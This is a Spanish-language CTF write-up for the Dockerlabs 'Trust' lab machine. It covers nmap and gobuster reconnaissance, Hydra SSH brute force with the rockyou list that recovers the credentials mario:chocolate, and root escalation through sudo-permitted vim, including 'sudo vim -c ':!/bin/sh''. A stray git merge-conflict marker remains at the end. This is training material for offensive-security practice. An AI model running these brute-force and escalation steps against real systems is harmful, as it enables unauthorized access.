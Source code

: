 # Write-up:
- **Nombre de la máquina:** Trust 
- ***Plataforma:** Dockerlabs 
- **IP:** 172.18.0.2 
- **SO:** Linux 
- **Dificultad:** Muy Fácil 

## 1. RECONOCMIENTO 

Lanzamos ping para comprobar conectividad con máquina víctima.
`ping 172.18.0.2` 
Nos devuelve conectividad y un ttl=64 por lo que deducimos que se trata de un máquina Linux. 

![](Imagenes/100.png)

Lanzamos un NMAP para ver los puertos abiertos y los servicios y versiones  que corre por ellos.
`sudo nmap -p- -sV -sC -sS --min-rate 5000 --open -vvv -n -Pn 172.18.0.2  -oN port_scan.txt`
Nos devuelve 2 puertos abiertos:
	:22. con servicio ssh
	:80 con servicio http
	![](Imagenes/101.png)
Normalmente el acceso por el puerto 22 al servicio ssh requiere de credenciales. Ya sea usuario y contraseña o una clave rsa. En este caso carecemos de información al respecto así qu lo más productivo es pasar a explorar el puerto 80

## 2. Enumeración

### Puerto 80 (HTTP) :
Se accede a la web y se encuentra una página por defecto de Apache. 

![](Imagenes/102.png)

Actuaremos en dos frentes de la ENUMERACIÓN paralelamente:

#### Enumeración manual:
Buscamos directorios comunes de forma manual:

	/robots.txt -->X
	/sitemap.xml--> X
	/login--> X
	/admin--> X
	/panel-->X
	/user-->X
	 /backup, --> X
	 /uploads, --> X
	 /test--> X

No encontramos nada. 


#### Enumeración automática:
Lazamos la herramienta de enumeración `gobuster` para buscar directorios ocultos y extensiones .php,.txt y .html de forma automática

`sudo gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,php,html  -k`

Nos devuelve varias rutas, pero hay una llamativa: `/secret.php`
![](CTF/Dockerlabs/0.Muy%20Fácil/Imagenes/103.png)

Estudiamos esta dirección : 172.18.0.2/secret.php 

![](CTF/Dockerlabs/0.Muy%20Fácil/Imagenes/104.png)

Tras un vistazo sólo encontramos como hallazgo relevante el posible nombre de un usuario: `Mario` nada más en la página. Tampoco nada escondido en su código fuente.

![](CTF/Dockerlabs/0.Muy%20Fácil/Imagenes/105.png)

### Puerto 22(SSH)

Si recordamos para acceder al servicio que corre en el puerto :22, el servicio `ssh` necesitamos algún tipo de credencial. Debemos probar si con este usuario que hemos encontrado `Mario` podemos acceder. 

Para ello utilizaremos la fuerza bruta con la herramienta `Hydra` que probará un diccionario con miles de opciones de contraseña para el usuario que le aportamos. 

`hydra -t 4 -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2`

Averigua que para el usuario mario la password es `chocolate`
mario:chocolate

![](CTF/Dockerlabs/0.Muy%20Fácil/Imagenes/106.png)

## 3. Explotación

### 3.1 Acceso inicial:

Con las credenciales descubiertas `mario:chocolate`  nos conectamos al servicio ssh:

`ssh mario@172.18.0.2` 

![](CTF/Dockerlabs/0.Muy%20Fácil/Imagenes/107.png)

### 3.2 Enumeración Interna:
Una vez hemos entrado al sistema debemos hacer algunas comprobaciones.
	¿Qué usuario somos?
	¿A qué grupo pertenecemos?
	¿Qué usuarios hay en el sistema?
	
#### 3.2.1 Comprobaciones

¿Quiénes somos?
`whoami`

 ![](CTF/Dockerlabs/0.Muy%20Fácil/Imagenes/108.png)
 
 ¿A qué grupo pertenecemos?
`id`

![](CTF/Dockerlabs/0.Muy%20Fácil/Imagenes/109.png)
¿Qué usuarios hay en el sistema?
`cd /home`
`ls -la`

![](CTF/Dockerlabs/0.Muy%20Fácil/Imagenes/110.png)

#### 3.2.2 Búsqueda del Vector de Escalada de privilegios:

Tras las comprobaciones iniciales, el siguinete paso es buscar una forma de elevar nuestros privilegios al usuario root. 

Una de las primeras verificaciones es comprobar qué permisos tiene nuestro usuario `mario` para ejecutar comando con `sudo`:
	`sudo -l`

En este caso podemos ejecutar como root  el editor de texto `vim` 
![](Imagenes/111.png)

### 3.3 Explotación y Escalada a Root


Debido a que `vim` es un editor de texto que permite ejecutar comandos de sistema desde si interfaz. Al poder ejecutar `vim` como  `root ` podemos usar esta funcionalidad para lanzar una shell que tendrá privilegios de `root`.

1. Ejecutar `vim` como sudo:
	`sudo vim`
2. Obtener una Shell de Root:
   Un vez dentro de la interfaz de `vim`:
	- primero ejecuta el símbolo `:` Esto hace que aparezca una línea de comando abajo (verás algo como `:` esperando que escribas un comando). 
	  ![](CTF/Dockerlabs/0.Muy%20Fácil/Imagenes/112.png)
	- A continuación  ejecuta el comando  `shell`  escribiéndolo y pulsando enter
	  ![](CTF/Dockerlabs/0.Muy%20Fácil/Imagenes/113.png)
3. Verificamos la escalada 
	   `whoami`
	Somos root 
	![](CTF/Dockerlabs/0.Muy%20Fácil/Imagenes/114.png)

#### 4. Alternativa Bonus para la escalada de privilegios

Si buscamos en GTFOBINS para el binario `vim` , encontramos un método más rápido para la escalada de privilegios.

- Referencia https://gtfobins.github.io/gtfobins/vim/#sudo

Vemos que no requerimos de entrar al modo interactivo de `vim` . Podemos utilizar un argumento en una linea de comando para ejecutar directamente la elevación de privilegios :

![](CTF/Dockerlabs/0.Muy%20Fácil/Imagenes/115.png)
- Comando:
```
sudo vim -c ':!/bin/sh'
```

Como podemos ver al ejecutarlo nos eleva a usuario `root` .
<<<<<<< HEAD
 ![](CTF/Dockerlabs/0.Muy%20Fácil/Imagenes/116.png)
=======
 ![](CTF/Dockerlabs/0.Muy%20Fácil/Imagenes/116.png)
>>>>>>> cd4175e4b6f8148930e78659fb109e24edbd703d
